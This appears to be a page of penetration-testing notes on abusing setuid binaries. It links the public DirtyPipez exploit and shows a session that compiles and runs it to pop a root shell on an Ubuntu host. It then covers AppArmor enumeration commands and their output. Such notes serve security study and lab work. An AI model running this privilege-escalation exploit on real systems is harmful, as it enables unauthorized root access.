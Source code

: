 # Abusing Setuid Binaries and Capabilities

## Dirty Pipe Exploit

If we encounter a SUID / SGID binary it's worth trying the DirtyPipez exploit\
[https://github.com/febinrev/dirtypipez-exploit](https://github.com/febinrev/dirtypipez-exploit)

```shell-session
victim@ubuntu:~$ ls
RESET_PASSWD  a.out  dirtypipez.c  linpeas.sh  local.txt  snap

victim@ubuntu:~$: gcc dirtypipez.c

victim@ubuntu:~$ ./a.out /home/victim/RESET_PASSWD 
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root

```

## Enumeration

### AppArmor

AppArmor is a security system that is preinstalled on the mainline kernel since 2.6.36. It supplements Linux's Discreciniary Access Control (DAC) system with Mandatory Access Control (MAC).

#### Check if enabled

We can check if AppArmor is enabled with any user.

```shell-session
$ aa-enabled
Yes
```

#### Check Status (root)

We can check status as root&#x20;

```shell-session
$ aa-status
20 profiles are in enforce mode.
   /usr/bin/evince
   /usr/bin/evince-previewer
   /usr/bin/evince-previewer//sanitized_helper
   /usr/bin/evince-thumbnailer
   /usr/bin/evince//sanitized_helper
   /usr/bin/man
   /usr/lib/cups/backend/cups-pdf
   /usr/lib/x86_64-linux-gnu/lightdm/lightdm-guest-session
   /usr/lib/x86_64-linux-gnu/lightdm/lightdm-guest-session//chromium
   /usr/sbin/cups-browsed
   /usr/sbin/cupsd
   /usr/sbin/cupsd//third_party
   /usr/sbin/tcpdump
   libreoffice-senddoc
   libreoffice-soffice//gpg
   libreoffice-xpdfimport
   man_filter
   man_groff
   nvidia_modprobe
   nvidia_modprobe//kmod
2 profiles are in complain mode.
   libreoffice-oopslash
   libreoffice-soffice
2 processes have profiles defined.
2 processes are in enforce mode.
   /usr/sbin/cups-browsed (1053) 
   /usr/sbin/cupsd (1052) 
0 processes are in complain mode.
0 processes are unconfined but have a profile defined.

```

